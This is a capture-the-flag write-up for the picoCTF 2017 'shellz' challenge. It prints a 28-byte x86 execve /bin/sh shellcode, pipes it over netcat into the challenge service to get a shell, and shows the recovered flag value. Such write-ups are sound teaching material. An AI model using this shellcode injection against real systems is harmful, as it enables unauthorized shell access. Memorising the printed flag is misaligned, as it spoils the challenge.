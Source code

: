 # Shellz
```
You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:23459.
HINTS
There is a bunch of preexisting shellcode already out there!
```

The program runs the 40 bytes worth of binary instructions that are entered by the user. We simply need to inject a shellcode that executes /bin/sh that is less than 40 bytes. There exist many premade shellcodes. We chose to use a 28 byte one from this link. 
[http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)

Using python we can or echo -e we can pipe the shellcode into the program. We will however have to do 2 other things. We will have to evaluate pass stdin back to the process with 'cat' followed by no arguments and evaluate our expression before piping it in. The command takes the following format in the end.

```
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc shell2017.picoctf.com 23459
```

After executing this command we are left with a shell on their server and we simply need to cat the flag.

```
python -c "print len('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"
28
robbie@debian-server:~/PicoCTF2017/binary_exploitation/level2/shellz$ ./get_shell.sh
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
cat flag.txt
5b5ba2c3b5558ec86315fd52b0c55a87
```
